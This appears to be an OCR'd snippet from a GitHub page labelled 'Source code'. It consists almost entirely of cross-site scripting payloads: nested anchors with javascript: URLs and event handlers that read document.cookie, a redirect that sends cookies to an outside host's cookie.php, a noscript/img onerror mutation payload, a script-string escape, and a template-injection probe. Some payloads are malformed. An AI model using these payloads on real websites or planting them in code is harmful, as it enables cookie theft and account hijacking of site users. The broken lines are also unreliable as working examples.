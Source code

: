 

<a href="http://evil.com"><span class="btn button button--orange button--wide">XSS</a></span>

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com</a>">aaale.com</a>">aaagle.com</a>">gle.com</a> hhh

<h1>holaa||<a href="http://<a href="http://<a href="http://<a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com</a>">gle.com</a> hhhk


<noscript><p title="</noscript><img src=x onerror=alert(document.cookie)>"></p></noscript>

"'`><p><svg><script>a='hello\x27;prompt(document.cookie)//';</script></p>

{%25+macro+field(x)+%25}www.com{{x}}+<b>ok</b>{%25+endmacro+%25}{{+field(1)%7curlize+}}

